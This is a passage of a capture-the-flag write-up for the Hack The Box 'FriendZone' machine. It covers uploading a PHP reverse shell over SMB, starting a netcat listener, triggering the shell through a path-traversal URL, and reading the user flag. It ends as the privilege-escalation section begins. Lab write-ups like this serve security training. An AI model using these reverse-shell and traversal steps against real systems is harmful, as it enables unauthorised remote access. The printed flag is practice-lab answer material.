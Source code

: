 ### reverse shell

Let's try to upload a [tiny PHP reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc):

![smb put shell.php](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/friendzone/smb-put.png)

Run a listener on our machine:

```bash
$ nc -lnvp 1234
```

Then open it from [https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=../../../../../../../../../../../etc/Development/shell](https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=../../../../../../../../../../../etc/Development/shell) 

BOUM!

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/friendzone/reverse-shell.png)
___

## User's flag (friend)

```bash
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Oct  5  2018 .
drwxr-xr-x 22 root   root   4096 Oct  5  2018 ..
drwxr-xr-x  5 friend friend 4096 Jan 24  2019 friend
$ cd friend
$ ls -la
total 36
drwxr-xr-x 5 friend friend 4096 Jan 24  2019 .
drwxr-xr-x 3 root   root   4096 Oct  5  2018 ..
lrwxrwxrwx 1 root   root      9 Jan 24  2019 .bash_history -> /dev/null
-rw-r--r-- 1 friend friend  220 Oct  5  2018 .bash_logout
-rw-r--r-- 1 friend friend 3771 Oct  5  2018 .bashrc
drwx------ 2 friend friend 4096 Oct  5  2018 .cache
drwx------ 3 friend friend 4096 Oct  6  2018 .gnupg
drwxrwxr-x 3 friend friend 4096 Oct  6  2018 .local
-rw-r--r-- 1 friend friend  807 Oct  5  2018 .profile
-rw-r--r-- 1 friend friend    0 Oct  5  2018 .sudo_as_admin_successful
-r--r--r-- 1 root   root     33 Oct  6  2018 user.txt
$ cat user.txt
a9ed20acecd6c5b6b52f474e15ae9a11
```

## Privesc to Root

`linpeas.sh` told me something interesting:
